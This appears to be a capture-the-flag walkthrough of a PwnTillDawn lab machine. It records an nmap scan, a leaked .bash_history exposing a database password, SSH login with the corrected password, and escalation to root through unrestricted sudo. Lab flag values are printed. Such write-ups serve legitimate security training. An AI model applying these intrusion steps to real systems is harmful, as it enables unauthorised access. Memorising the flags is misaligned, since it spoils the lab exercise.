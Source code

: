 PwntillDawn Target:  10.150.150.222 

### Basic Recon
```
└─# nmap -Pn -p- --min-rate 5000 $ip
Host is up (7.9s latency).
Not shown: 45844 filtered tcp ports (no-response), 19688 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
10000/tcp open  snet-sensor-mgmt

```
Directory Bruteforce
```


```
found : http://10.150.150.222/.bash_history
```
flag40=3e11129fe2d30563999cd1d5602a1f7eb90e2176
./configure
cd /home/vega
ls -lah
ifconfig
sudo passwd rootsudo apt-key add jcameron-key.asc
sudo apt update 
sudo apt install webmin 
cd ..
mysqldump -u vega --password=puplfiction1994 magento2 > dumpmagento.sql
```
I found this pass and user, there is an ssh i will try it 
```
ega@10.150.150.222's password: 
Permission denied, please try again.
vega@10.150.150.222's password: 
Permission denied, please try again.
vega@10.150.150.222's password: 
```
The password doesn't work i will try to find that sql db
here : http://10.150.150.222/dumpmagento.sql, but it's an empty file.
on the pass `puplfiction1994` there was an error, i googled the film and it was pulp fiction:
Just change it `pulpfiction1994`
`91061fbccf2238f04fff4d0553732616b98bcd54`

## Privesc
```
vega@vega:~$ sudo -l -l
[sudo] password for vega: 
Matching Defaults entries for vega on vega:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vega may run the following commands on vega:

Sudoers entry:
    RunAsUsers: ALL
    RunAsGroups: ALL
    Commands:
	ALL
vega@vega:~$ sudo su
root@vega:/home/vega# id
uid=0(root) gid=0(root) groups=0(root)
root@vega:/home/vega# id;hostnamectl
uid=0(root) gid=0(root) groups=0(root)
   Static hostname: vega
         Icon name: computer-vm
           Chassis: vm
        Machine ID: 4045ea6ba70e474f82a6f9a8438ac3b0
           Boot ID: 124dac1dc0c9402ba9f4f4422ecff0a7
    Virtualization: vmware
  Operating System: Ubuntu 18.04.4 LTS
            Kernel: Linux 4.15.0-66-generic
      Architecture: x86-64
```